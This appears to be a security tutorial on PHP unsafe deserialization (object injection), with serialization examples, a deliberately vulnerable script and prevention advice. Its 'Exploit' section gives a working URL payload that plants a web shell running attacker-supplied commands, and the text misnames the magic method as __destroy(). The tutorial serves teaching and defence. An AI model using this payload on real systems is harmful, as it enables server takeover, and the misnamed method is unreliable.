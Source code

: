 ![Unsafe Deserialization](image/serialization.png?raw=true "Unsafe Deserialization")
# Description
Unsafe Deserialization (also referred to as Insecure Deserialization) is a vulnerability wherein malformed and untrusted data input is insecurely deserialized by an application. It is exploited to hijack the logic flow of the application end might result in the execution of arbitrary code.

# Understanding Serialization and UnSerialization

## Serialize()

The serialize() function converts a storable representation of a value. To serialize data means to convert a value to a sequence of bits, so that it can be stored in a file, a memory buffer, or transmitted across a network.

Example:

```php
<?php

$our_array = array("Pentester","Nepal");
$serialized = serialize($our_array);
echo $serialized;

?>

```
Returns:
`a:2:{i:0;s:9:"Pentester";i:1;s:5:"Nepal";}`

Understanding the serialized string;

| String     | Meaning      |
| ------------- | ------------- | 
|a:2{|	    Array of 2 values|
|i:0|	       Integer, value [ index-0]|
|S:9:"Pentester"|    String, 9 chars long, string value "Pentester"|
|i:1|	Integer, value [index-1]|
|S:5:"Nepal"|	String , 5 chars long, string value "Nepal"


## unserialize()
Convert serialized data back into actual data.

Example:

```php
<?php
$data = serialize(array("Pentester", "Nepal"));

$test = unserialize($data);
var_dump($test);
?>
```
Returns:
`array(2) { [0]=> string(9) "Pentester" [1]=> string(5) "Nepal" }`

# Vulnerability

For example, the following script creates an instance of the object FSResource, serializes it, and then prints the string representation of the object.

```php
<?php

class FSResource {

    function __construct($path) {
        $this->path = $path;
        if (file_exists($path)) {
          $this->content = file_get_contents($path);
        }
    }

    function __destruct() {
        file_put_contents($this->path, $this->content);
    }

}

$resource = new FSResource('/tmp/file');
print(serialize($resource));

# Prints the following string representation:
# O:10:"FSResource":2:{s:4:"path";s:9:"/tmp/file";s:7:"content";s:0:"";}
```

The exploitation of deserialization in PHP is called PHP Object Injection, which happens when user-controlled input is passed as the first argument of the unserialize() function. This is a vulnerable script.php:

```php
<?php

$instance = unserialize($_GET["data"]);
?>
```

To be exploitable, the vulnerable piece of code must have enough PHP code in scope to build a working POP chain, a chain of reusable PHP code that causes a meaningful impact when invoked. The chain usually starts by triggering `__destroy()` or `__wakeup()` PHP magic methods, called when the object is destroyed or deserialized, in order to call other gadgets to conduct malicious actions on the system.

If the class FSResource defined in the paragrah above is in scope, an attacker could send an HTTP request containing a serialized representation of an FSResource object that creates a malicious PHP file to path with an arbitrary content when the `__destruct()` magic method is called upon destruction.

# Exploit

`http://localhost/script.php?data=O:10:%22FSResource%22:2:{s:4:%22path%22;s:9:%22shell.php%22;s:7:%22content%22;s:27:%22%3C?php%20system($_GET[%22cmd%22]);%22;}`

The payload above decodes as `O:10:"FSResource":2:{s:4:"path";s:9:"shell.php";s:7:"content";s:27:"<?php system($_GET["cmd"]);";}` and, when deserialized, it creates the shell.php allowing the attacker to run arbitrary commands on the systems.

# Prevention
Never use the `unserialize()` function on user-supplied input, and preferably use data-only serialization formats such as JSON. If you need to use PHP deserialization, a second optional parameter has been added in PHP 7 that enables you to specify an allow list of allowed classes.

References: [Notsosecure](https://notsosecure.com/remote-code-execution-php-unserialize),[OWASP](https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_php.html)